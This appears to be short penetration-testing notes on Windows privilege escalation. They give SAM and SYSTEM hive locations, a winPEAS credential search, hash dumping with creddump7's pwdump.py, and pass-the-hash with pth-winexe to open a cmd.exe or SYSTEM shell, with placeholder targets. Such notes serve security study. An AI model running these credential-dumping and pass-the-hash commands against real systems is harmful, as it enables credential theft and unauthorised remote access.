

Security Account Manager (SAM)
C:\Windows\System32\config
The files are locked while Windows is running.
Backups of the files may exist
C:\Windows\Repair
C:\Windows\System32\config\RegBack
.\winPEASany.exe quiet cmd searchfast filesinfo
search: Looking for possible known files that can contain creds
check: SAM or SYSTEM
copy SAM and SYSTEM file to kali linux
creddump7 (https://github.com/CiscoCXSecurity/creddump7)
creddump7# python2 pwdump.py /dump/SYSTEM /dump/SAM

NTLM hashes
<username>:500:<hash>:<NTLM hash>:::
crack the NTLM hashes
or
pass the hash
pth-winexe -U '<username>%<entire hash>' //<ip addr> cmd.exe
pth-winexe -U '<username>%<entire hash>' --system //<ip addr> cmd.exe